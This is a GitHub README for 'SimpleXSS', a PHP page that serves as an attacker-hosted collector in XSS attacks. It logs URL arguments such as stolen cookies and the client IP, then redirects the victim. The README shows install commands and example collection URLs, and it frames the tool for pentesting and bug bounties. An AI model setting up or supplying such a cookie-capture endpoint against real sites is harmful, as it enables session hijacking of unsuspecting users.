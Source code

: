 # Simple XSS template [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/ScanQLi/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

Simple index.php page to perform XSS attack.

### Features
* Record each URL args
* Record client IP
* Instant redirection (static or dynamic)

### Prerequisites
* Web server (apache2, nginx, ...)
* PHP

### Installing
**1.** Get the sources
```bash
git clone https://github.com/bambish/SimpleXSS
```

**2.** Move index.php in the web server root dir.
```bash
mv SimpleXSS/index.php /var/www/html
```

### Usage
* Basic usage: **cookies=**12345&**arg=**67890
```http
http://127.0.0.1/index.php?cookies=12345&arg=67890
```
You can use every `arbitrary args name`

* Dynamic redirection: **redirect=**http://arbitrarywebsite.com/
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
```
You can `change or disable` the `default redirection`:
    * Change: Edit `$staticredirection=` var in index.php
    * Disable: Comment `$staticredirection=` line in index.php  
You can force the static redirection if you set `$allowgetredirection` to false in index.php

* Write in specific dump file: **dumpfile=**arbitraryfile.txt
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
```
Be shure your `web server` have the right `access to create and edit` files at the root dir`
The default dump file is `dumpfile.txt`

### Warning
This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
Using this XSS template against web site **without authorization** is **forbidden**. 

I'm not responsible of your usage of this XSS template.
**At your own risk**.